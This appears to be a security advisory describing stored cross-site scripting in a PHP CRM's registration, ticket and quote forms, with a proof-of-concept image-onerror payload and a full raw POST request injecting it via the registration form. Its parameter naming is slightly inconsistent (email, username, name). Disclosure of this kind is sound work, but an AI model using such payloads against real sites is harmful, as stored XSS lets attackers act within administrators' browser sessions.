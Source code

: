   1. Registration Module → User Management
     - Input: /crm/registration.php (username field)
     - Trigger: /crm/admin/manage-users.php when the admin views registered users.
  2. Ticket Module → Ticket Management
     - Input: /crm/create-ticket.php (ticket details field)
     - Trigger: /crm/admin/manage-tickets.php when the admin views submitted tickets.
  3. Quote Module → Quote Details
     - Input: /crm/get-quote.php (quote query field)
     - Trigger: /crm/admin/quote-details.php?id=<id> when the admin views quote details.

  All three issues stem from missing output encoding, enabling unauthenticated attackers to inject persistent JavaScript payloads that are executed in the context of the administrator’s browser session.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* Stored Cross-Site Scripting (XSS)

### Vulnerability location:

* Parameter: email (POST)

### Case 1: Registration Module

- **Input parameter**: username

- **Input file**: /crm/registration.php
- **Trigger file**: /crm/admin/manage-users.php

PoC Payload (as username during registration): 

```
<img src="#" onerror=alert("XSS")>
```

```
POST /crm/registration.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 153
Origin: http://xxx.xxx.xxx.xxx
Connection: keep-alive
Referer: http://xxx.xxx.xxx.xxx/crm/registration.php
Cookie: PHPSESSID=uqub0pe6484q6qpgmfm3d3mdu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=%3Cimg+src%3D%22%23%22+onerror%3Dalert%28%22XSS%22%29%3E&email=123%40qq.com&password=www222&cpassword=www222&phone=1234567890&gender=m&submit=Submit
```
